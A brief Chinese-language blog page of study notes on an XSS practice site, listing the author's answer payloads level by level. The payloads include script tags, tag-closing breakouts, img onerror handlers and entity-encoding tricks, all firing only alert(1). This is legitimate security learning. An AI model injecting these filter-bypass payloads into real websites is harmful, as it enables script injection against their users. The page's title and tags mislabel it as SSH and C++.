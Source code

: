 ```yaml
---
layout: default
title: ssh_notes
categories:
- C++
tags:
- C++
---
```

//Description: 学习xss的一点笔记

//Create Date: 2020-02-20 00:09:20

//Author: channy

# ssh_notes

[练习页面](https://xss.haozi.me/)

前言：做了两题终于弄明白，目标是要使页面显示"alert(1)"

0. 直接输入"alert(1)"?

```xss
<script>alert(1)</script>
```

1. 类似于xml,匹配去掉前面的<textarea>

```xss
</textarea><script>alert(1)</script>
```

3. 括号闭合去掉前面的input

> "><script>alert(1)</script>

4. html: #40; -> ( ; #41 -> ) .

> <img src="" onerror="alert&#40;1&#41;"/>

5. 

> --!><img src="" onerror="alert&#40;1&#41;"/>

6. 一定要image吗？前面的script怎么改？换行可以

> type="image" src="" onerror
="alert(1)"

7. 迷惑+1

> <img src="" onerror="alert(1)"

8. 这都可以？

> </style
><img src="x" onerror="alert(1);">

9. 。。。放弃了

> https://www.segmentfault.com<img src="x" onerror="alert(1)">

[back](/)

